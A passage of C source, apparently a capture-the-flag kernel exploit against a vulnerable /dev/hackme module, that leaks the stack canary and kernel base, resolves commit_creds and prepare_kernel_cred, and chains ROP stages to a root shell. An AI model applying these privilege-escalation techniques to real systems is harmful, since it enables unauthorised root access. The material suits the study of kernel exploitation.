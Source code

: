 ```c
    __asm__(
        ".intel_syntax noprefix;"
        "mov leak, rax;"
        ".att_syntax;"
    );

    switch (flag)
    {
        case 1:
            get_addr(__ksymtab_prepare_kernel_cred , 2 );
            break;
        case 2:
            offset = leak & 0xffffffff;
            prepare_kernel_cred = __ksymtab_prepare_kernel_cred + offset;
            get_addr(__ksymtab_commit_creds , 3);
            break;
        case 3:
            offset = leak & 0xffffffff;
            commit_creds = __ksymtab_commit_creds + offset;
            info("prepare_kernel_cred" , prepare_kernel_cred);
            info("commit_creds" , commit_creds);
            to_rop( 0 , 4 );
            break;
        case 4:
            info("struct",leak);
            to_rop(leak , 5 );
            break;
        case 5:
            shell();
            break;
        default:
            break;
    }
}

int main(){
    
    size_t buf[0x100] = {0};
    size_t rop[0x600] = {0}; 
    int length =  (0x80 + 0x18 + 0x100);
    int i = 0x10;

    save_status();
    signal(SIGSEGV, shell);

    fd = open("/dev/hackme" , 2);

    read(fd , buf ,length);

    // show(buf , length/8);
    canary = buf[i];
    vmlinux_base = buf[0x26] & 0xFFFFFFFFFFFF0000;
    set_offset();

    control(1);

}
```
